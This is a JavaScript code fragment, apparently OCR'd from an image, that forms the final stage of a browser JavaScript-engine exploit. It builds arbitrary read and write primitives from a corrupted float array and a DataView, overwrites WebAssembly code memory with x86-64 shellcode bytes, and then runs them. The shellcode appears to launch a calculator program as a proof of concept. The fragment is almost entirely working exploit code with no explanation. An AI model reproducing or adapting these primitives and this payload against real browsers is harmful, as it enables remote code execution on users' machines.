 ```javascript
console.log("[+] wasm_code_addr: 0x"+hex(wasm_code_addr));


//------ find backing_store
var data_buf = new ArrayBuffer(0x200);
var data_view = new DataView(data_buf);
var float_buffer_idx = 0;
for(let i=0; i < 0x1000; i++)
{
	if(f2i(float_array[i]) == 0x200n){
		float_buffer_idx = i + 1;
		console.log("[+] find data_buf backing_store : 0x" + hex(f2i(float_array[float_buffer_idx])));
		break;
	}
}

//----- arbitrary read
function dataview_read64(addr)
{
	float_array[float_buffer_idx] = i2f(addr);
	return f2i(data_view.getFloat64(0, true));
}

//----- arbitrary write
function dataview_write(addr, payload)
{
	float_array[float_buffer_idx] = i2f(addr);
	for(let i=0; i < payload.length; i++)
	{
		data_view.setUint8(i, payload[i]);
	}
}

//----- get wasm_code by AAR 
var wasm_code = dataview_read64(wasm_code_addr);
console.log("[+] wasm_code : 0x" + hex(wasm_code));

//write shellcode to wasm
var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];

dataview_write(wasm_code, shellcode);

wasm_function();

```
